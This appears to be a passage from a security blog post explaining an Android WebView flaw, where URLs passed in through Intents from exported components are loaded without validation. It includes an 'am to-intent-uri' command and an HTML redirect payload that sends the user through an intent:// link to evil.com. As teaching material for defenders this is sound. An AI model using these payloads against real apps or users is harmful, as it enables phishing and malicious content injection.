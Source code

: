 
![webview Misconfigration](/img/webview3.png)

```mermaid
flowchart LR
   A[Retrieve Intent Data]--> C[Extract URL]
    C --> E[Load URL into WebView]

```

An attacker can send arbitrary data via Intent, which is then loaded directly into the WebView without proper validation. This allows the attacker to insert malicious content 

There are several methods through which an attacker can pass arbitrary intent data to a vulnerable component, including:

- **Exported Components**: Components that are declared as exported in the Android manifest, making them accessible to other applications. 

- **Intent Redirection**: Redirecting intents from one component to another to inject malicious data.

- **Deep Links**: Using deep links to pass data directly to components, potentially leading to security issues.

- **Implicit Intents**: Leveraging implicit intents that can be resolved by various components, potentially exposing vulnerabilities.

For now, we will focus on exported components. The other methods will be covered in later blogs

**Demonstration**

An attacker can send arbitrary url via intent that will be loaded by vulnerable application.

![no url validation exploit](/img/webview4.png)


In a real-world scenario, exploitation becomes significantly easier because attackers can craft Intent URIs embedded within HTML pages. Here’s how this can be exploited:

An attacker can embed a specially crafted Intent URI in an HTML page and then send this page to a victim. When the victim opens the link in the HTML page, the malicious Intent URI is triggered, causing the vulnerable application to open and potentially execute malicious actions.

 - Craft Malicious Intent URI
    ```js  
    am to-intent-uri \
      -n com.safenodelabs/.MainActivity \
      -d 'https://evil.com'

    ```
- Embed in HTML Page
 
```html
<html>
  <script>
window.location.href= "intent://evil.com#Intent;scheme=https;component=com.safenodelabs/.MainActivity;end"
</script>
      </html> 
```
